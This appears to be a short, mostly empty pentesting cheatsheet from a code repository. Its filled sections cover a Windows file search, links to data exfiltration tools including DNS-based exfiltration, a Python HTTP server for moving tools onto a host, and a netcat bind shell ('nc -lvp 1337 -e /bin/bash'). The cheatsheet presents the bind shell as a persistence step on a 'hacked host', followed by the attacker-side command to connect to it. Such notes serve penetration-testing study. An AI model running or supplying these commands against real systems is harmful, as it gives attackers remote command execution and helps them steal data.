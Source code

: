 # Pentesting Cheatsheet

## Information Gathering
Dirbuster

## Footprinting and Scanning


## Vulnerability Assessment


## Web Attacks


## System Attacks


## Network Attacks


## Exploring Host
Search windows host.
```
dir /s /b stringToSearch
```

## Data Exfiltration
Find exfil options: https://github.com/stufus/egresscheck-framework
Exfil data over DNS: https://github.com/TryCatchHCF/PacketWhisper


## Persistence
Start listening server on hacked host.
```
nc -lvp 1337 -e /bin/bash
```
Access the shell using netcat from attacker box.
```
nc -v hackedBoxIP 1337
```
Now run any command you want to execute on the hacked host.


## C++


## Python
Simple HTTP Server
```
python -m SimpleHTTPServer 8080
```
This is useful to get tools to a host.

## Command Line Scripting
